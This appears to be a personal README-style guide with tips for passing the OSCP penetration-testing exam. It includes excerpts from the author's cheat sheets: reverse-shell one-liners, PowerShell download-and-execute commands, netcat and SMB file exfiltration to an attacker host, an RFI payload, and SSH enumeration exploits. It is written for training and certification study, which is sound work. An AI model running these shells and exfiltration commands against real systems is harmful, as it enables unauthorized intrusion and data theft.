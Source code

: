 # Four OSCP Tips

I completed all five OSCP exam machines in 9.5 hours and I did not use Metasploit. Here are four tips that will help you to pass your OSCP exam:

## 1. Tame your terminal

Export variables and set aliases in `~/.bashrc` for commands that you will frequently. I recommend the following: 
* Store your OSCP lab and exam content on your host machine and share it with your PWK virtual machine using VMWare's shared folders feature. Use the following alias to conveniently mount the shared drives inside of the virtual machine: 
	```
	alias "mount-shared-folders=
	vmware-hgfsclient | while read folder; do
		echo \"[i] Mounting ${folder} (/mnt/hgfs/${folder})\";
		mkdir -p \"/mnt/hgfs/${folder}\";
		umount -f \"/mnt/hgfs/${folder}\" 2>/dev/null;
		vmhgfs-fuse -o allow_other -o auto_unmount \".host:/${folder}\" \"/mnt/hgfs/${folder}\";
	done"
	```	
* You will frequently use tools that will require you to type out the target machine's IP address and/or your VPN IP address. Export these values to variables to save time and prevent typos:
	```
	export targ=x.x.x.x
	export tun0=$(/sbin/ip -o -4 addr list tun0 | awk '{print $4}' | cut -d/ -f1)
	```
	After you've finished a machine and changed the `targ` variable, use `source` to reload `.bashrc` for the current session:
	```
	source ~/.bashrc
	```
	Example: use these variables to exploit an RFI vulnerability (the unicorns of web application hacking):
	```
	curl "http://$targ/vuln_page.php?file=http://$tun0:8888/payload.php"
	```
		
* Not OSCP-specific but you can use `xclip` and an alias to copy and paste while keeping both hands on the keyboard:
	```
	alias "c=xclip -selection clipboard"
	alias "v=xclip -o -selection clipboard"
	```
	Example: use this alias to review a `searchsploit` result:
	```
	locate windows/remote/1.c | c ; less `v`
	```
* You will frequently use a webserver to transfer files to a target machine. Create a shared folder for these files and make an alias to spin up the webserver:
	```
	alias "webserver=
		webserver_dir=/home/user/www;
		ls -laR $webserver_dir;
		python3 -m http.server 8888 --directory $webserver_dir --bind $tun0"
	```
## 2. Connect with the OSCP community
There are a handful of Discord servers with OSCP text channels and one of them is InfoSec Prep which has ~17,000 members as of 1/1/2020: https://discord.gg/mS5tzTuyR2.

## 3. Study for the *exam*
While completing the PWK exercises and labs you will learn essential offensive security concepts like post-exploitation and lateral movement which will not be tested during the OSCP exam. Additionally, in 2020 Offensive Security updated the course (https://www.offensive-security.com/offsec/pwk-2020-update/) to incude a lot of new content including Active Directory and Powershell Empire modules which will also not be tested during the OSCP exam according to the update announcement: "At this time, the OSCP exam, proctoring, and certification procedures will remain the same." You could ignore these essential concepts (at a detriment to your professional development) if your only goal is to pass the OSCP exam. 

## 4. Make your own cheat sheets
Every J. Random Hacker has published an OSCP cheat sheet:

![Google cheat sheet result count](google_cheat_sheet_count.png)

and their work is helpful to you but not nearly as helpful as creating your own. I recommend that you create at least 3 documents as you progress through the PWK exercises and lab machines. The following are snippets from the three cheat sheets that I created:
	1. An enumeration cheat sheet:
```
PORT SCAN
=========
sudo nmap -v -Pn -A $targ -oN nmap_default-ports ;\
sudo nmap -v -Pn -sV --script vuln $targ -oN nmap_vulns ;\
sudo nmap -v -Pn -p- $targ -oN nmap_all-ports

SERVICE ENUMERATION
===================
21 FTP
22 SSH
	* OpenSSH <= 7.7 has username enumeration vulnerability
		* python sshUsernameEnumExploit.py --userList /usr/share/wordlists/metasploit/unix_users.txt $targ
			* source: https://github.com/BlackDiverX/ssh-user-enumeration
		* python 45939.py $targ root
	* server only accepts legacy algorithms?  "no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1 ...""
		* connect using legacy algorithm: ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 $user@$targ 
25 SMTP
	* run SMTP nmap scripts: nmap -p 25 --script=smtp-* $targ
	* enumerate local linux users: smtp-user-enum.pl -M VRFY/EXPN/RCPT -U /usr/share/metasploit-framework/data/wordlists/unix_users.txt -t $targ	
	* shellshock RCE vulnerability exists for postfix smtp server w/procmail
		* PoC: https://github.com/3mrgnc3/pentest_old/blob/master/postfix-shellshock-nc.py
...
```
	2. A Linux cheat sheet with shells, file transfer methods, and privilege escalation methods:
```
SHELLS
======
* bash -i >& /dev/tcp/$tun0/4444 0>&1
* msfvenom -p linux/x86/shell_reverse_tcp LHOST=$tun0 LPORT=4444 -f elf > shell86.elf
* msfvenom -p linux/x64/shell_reverse_tcp LHOST=$tun0 LPORT=4444 -f elf > shell.elf
* nc -e /bin/bash $tun0 4444
* nc -c /bin/bash $tun0 4444
* socat tcp:$tun0:4444 exec:"bash -i",pty,stderr,setsid,sigint,sane
	* socat -,raw,echo=0 tcp-listen:4444 //to catch the shell
* rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $tun0 4444 >/tmp/f
	* netcat shell for nc without -e or -c
	* sourced from: https://ostrokonskiy.com/posts/linux-privilege-escalation-cheatsheet.html
...

DOWNLOAD FILES TO TARGET
========================
* scp $file $user@$targ:~/$file
* curl http://$tun0:8888/$file -o /tmp/$file
* wget http://$tun0:8888/$file -O /tmp/$file
* axel http://$tun0:8888/$file -o /tmp/$file
...

CRONJOBS
========
* use pspy to view short-lived processes
* check cron log file for cronjobs in execution
	grep "CRON" /var/log/syslog*
* list all /etc/cron files
	ls -lhra /etc/cron*
* check /etc/crontab- sometimes sysadmins put tasks
* users can create cronjobs with crontab -e
	* without adequate permissions we cannot view other users' crontabs
	* crontabs are stored in /var/spool/cron/crontabs/$user
...
```
	3. A Windows cheat sheet with shells, file transfer methods, and privilege escalation methods:
```
SHELLS
======
* msfvenom -p windows/x64/shell_reverse_tcp LHOST=$tun0 LPORT=4444 -f exe > unstaged64.exe
* msfvenom -p windows/shell_reverse_tcp LHOST=$tun0 LPORT=4444 -f exe > unstaged86.exe
* nc.exe $tun0 4444 -e cmd.exe
* powershell -c "IEX(New-Object Net.WebClient).DownloadString('http://$tun0:8888/Invoke-PowerShellTcp.ps1'); Invoke-PowerShellTcp -Reverse -IPAddress $tun0 -Port 4444"
* powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://$tun0:8888/powercat.ps1'); powercat -l -p 4444 -e cmd"
...

UPLOAD FILES TO ATTACKER
========================
* nc -nvlp 6666 > $file
	* to receive
* nc.exe $tun0 6666 -w 3 < $file.out
* Get-Content $file.out | ./nc64.exe -w 3 $tun0 6666
	* useful for cases without '<'
* cmd /c 'C:\Users\$user\Documents\nc64.exe -w 3 $tun0 6666 < $file'
* sudo impacket-smbserver smb_share $directory
	* copy $file.out \\$tun0\smb_share\
...

GENERAL PRIV ESC
================
* whoami /all
	* look for: SeImpersonate, SeAssignPrimary, SeTcb, SeBackup, SeRestore, SeCreateToken, SeLoadDriver, SeTakeOwnership, or SeDebug
		* source: https://foxglovesecurity.com/2017/08/25/abusing-token-privileges-for-windows-local-privilege-escalation/
* net localgroup Administrators
	* shows who is inside Administrators group
* dir /b /s *.ext
	* search for files with file extension
* dir /r
	* view alternate data streams
* type C:\Users\$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
	* review user's powershell history
...
```
Good luck!